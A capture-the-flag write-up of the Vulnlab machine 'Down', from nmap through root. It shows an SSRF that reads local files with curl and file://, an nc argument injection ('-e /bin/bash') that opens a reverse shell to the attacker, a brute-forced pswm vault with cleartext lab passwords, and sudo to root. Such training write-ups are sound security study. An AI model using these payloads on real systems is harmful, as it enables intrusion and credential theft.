






# Vulnlab Machine : Down


## Enumeration
### Nmap Scan
```sh
# Nmap 7.95 scan initiated Sun Sep 21 22:11:11 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -oN nmap.txt 10.10.91.137
Nmap scan report for 10.10.91.137
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 21 22:11:21 2025 -- 1 IP address (1 host up) scanned in 9.74 seconds
```
## Analysis and Exploitation
the web app  use the input url to print the source code of the page web


As a example : `http://127.0.0.1:80/index.php`



it apear that this web app is vulnerable to SSRF vulnerability , i run a lestening server and i try `http://10.8.7.122:1234/` :


then , i notice that the webapp use `curl`
```sh
$ nc -lnvp 1234      
listening on [any] 1234 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 42238
GET / HTTP/1.1
Host: 10.8.7.122:1234
User-Agent: curl/7.81.0
Accept: */*
```
> `curl` can takes as a arguments many `urls`

```sh
$ curl -I google.com x.com     
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Content-Security-Policy-Report-Only: object-src 'none';base-uri 'self';script-src 'nonce-nV7JPTr7RjV_W6G-dXxDSw' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
Date: Sun, 21 Sep 2025 20:43:58 GMT
Expires: Tue, 21 Oct 2025 20:43:58 GMT
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 219
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

HTTP/1.1 301 Moved Permanently
Date: Sun, 21 Sep 2025 20:43:58 GMT
Content-Type: text/html
Content-Length: 167
Connection: keep-alive
Cache-Control: max-age=3600
Expires: Sun, 21 Sep 2025 21:43:58 GMT
Location: https://x.com/
Set-Cookie: __cf_bm=tkhrc.qo3UwiIliqXzwIe4smUeHiRXhPh4487YW19GQ-1758487438-1.0.1.1-kC0nYv7_xDSaRsiWEESkZ5.hODfao8K7Q9_G8WvY3WoNVy2v0XdkTYdYNQowbY7NQPm6UDR4J62bLP5zNrl2OXcnjtnf565dhbaf5Mrwg0o; path=/; expires=Sun, 21-Sep-25 21:13:58 GMT; domain=.x.com; HttpOnly
Server: cloudflare
CF-RAY: 982c65db39e30289-CDG
```
let's exploit this ,but using `file` wrapper : `url=http://10.10.91.137+file:///etc/passwd `



using this technique , we got the content of `index.php`: `url=http://10.10.91.137+file:///var/www/html/index.php`

```php
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```
Analyzing the code, there is a hidden mode of this application `expertmode` , let's discover it:



`expertmode` will allow me to execute nc and get nc connection. also , there is no validation filter of `$ip` and `$port`, so let's  try to make it a reverse shell.

```yml
POST //index.php?expertmode=tcp HTTP/1.1
Host: 10.10.91.137
Content-Length: 23
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.91.137
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.91.137//index.php?expertmode=tcp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.8.7.122&port=1337+-e+/bin/bash
```
we got the our re-shell, also the user flag
```sh
$ rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 55176
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
index.php
logo.png
style.css
user_aeT1xa.txt
cat user*
VL{}
```
after many operation, i notice that we had the access to `aleks` home directory, where i found a token in `/home/aleks/.local/share/pswm`
```yml
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```
after small research in google , i found this tool  to [bruteforce the pswm master password and decrypt the password vault](https://github.com/seriotonctf/pswm-decryptor) :

```sh
$ python3 pswm-decrypt.py -f token.txt -w rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```
we use those credentials to make ssh connection

```sh
$ ssh aleks@10.10.91.137         
The authenticity of host '10.10.91.137 (10.10.91.137)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.91.137' (ED25519) to the list of known hosts.
aleks@10.10.91.137's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)
Last login: Sun Sep 15 09:14:52 2024 from 10.8.0.101
aleks@down:~$ 
```
## Privilege Escalation
As always the first things i check is my sudo power:

```sh
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```
ahah !! , easy one this time , we had all we need.

```sh
aleks@down:~$ sudo su
root@down:/home/aleks# cd ~
root@down:~# ls
root.txt  snap
root@down:~# 
```
We got [the root flag](https://api.vulnlab.com/api/v1/share?id=c2397a68-a8c7-41a5-8268-ce1586a95e3b)


